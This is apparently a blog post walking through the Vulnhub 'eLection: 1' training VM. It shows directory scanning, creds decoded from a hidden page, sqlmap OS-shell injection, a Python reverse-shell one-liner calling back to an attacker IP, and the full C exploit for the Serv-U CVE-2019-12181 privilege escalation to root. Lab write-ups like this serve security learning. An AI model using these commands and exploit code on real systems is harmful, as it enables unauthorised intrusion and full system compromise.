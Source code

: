 ```yaml
---
layout: post
title:  "Vulnhub - ELECTION: 1"
date:   2020-11-05 21:00:00 +1100
category: hacking
---
```


## Introduction
*It is an OSCP-like VM, Medium Level difficulty.*

This is [eLection: 1](https://www.vulnhub.com/entry/election-1,503/) from Vulnhub. 

## Ports
SSH and HTTP only; simple.

## HTTP
robots.txt has four disallowed entries:

1. admin
2. wordpress
3. user, and
4. election

1 through 3 actually don't exist, but *election* does. It's a *Web Based Election System* from *tripath*. Searchsploit says there's an SQL injection, but it's authenticated so we'd need some creds.

I run a gobuster:

``
root@kali:/opt/vulnhub/election# gobuster dir -u http://192.168.1.138/election/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -x js,txt,html,php
``

And it turns up some interesting things, including phpMyAdmin. But I ignore that and focus on *card.php*. It says:

>00110000 00110001 00110001 00110001 00110000 00110001 etc etc

I take it to [CyberChef](https://gchq.github.io/CyberChef/) and run it through *from binary* twice - we get some creds!

>user:1234
pass:Zxc123!@#

These are credentials for http://192.168.1.138/election/admin and with that we can login, capture a certain request and run **sqlmap**.

The request:

{% highlight html %}
POST /election/admin/ajax/op_kandidat.php HTTP/1.1
Host: 192.168.1.138
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 16
Origin: http://192.168.1.138
Connection: close
Referer: http://192.168.1.138/election/admin/kandidat.php?_
Cookie: el_listing_panitia=5; el_mass_adding=false; el_listing_siswa=5; PHPSESSID=b9a4bvmua02igmm5as9manmqs2; el_lang=en-us

aksi=fetch&id=76
{% endhighlight %}

And sqlmap:

``
root@kali:/opt/vulnhub/election# sqlmap -r getcandidate --level=5 --risk=3 --os-shell -p id
``

This commands gets an os shell through sqlmap. We can get a normal reverse shell with a second listener and our old friend *pentestmonkey*:

``
os-shell> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.77",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``

We're on the box.

## www-data
So we're on as www-data. I run *linpeas*, because I always do. This line catches my eye:

>/var/www/html/election/admin/logs/system.log:[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123

We can *su love*. Or SSH in. Or both; whatever.

## love
Love can't run sudo. I search for SUID binaries:

``
love@election:/$ find / -perm -u=s -type f 2>/dev/null
``

And this line stands out:
>/usr/local/Serv-U/Serv-U

What is Serv-U? I've never heard of it. Google leads me to this writeup of [CVE-2019-12181](https://blog.whtaguy.com/2019/06/cve-2019-12181-serv-u-exploit-writeup.html), which is a privilege escalation for Serv-U FTP Server.

The exploit code is on [github](https://github.com/guywhataguy/CVE-2019-12181/blob/master/servu-pe-cve-2019-12181.c) but it's pretty simple:

{% highlight c %}
/*
CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 
vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev
https://blog.vastart.dev/2019/06/cve-2019-12181-serv-u-exploit-writeup.html
to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe
*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
{% endhighlight %}

I compile it, run it and .... root.

{% highlight shell %}
love@election:/tmp$ ./pe
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
root
# cat root.txt
5238feefc4ffe09645d97e9ee49bc3a6
{% endhighlight %}

Cool.
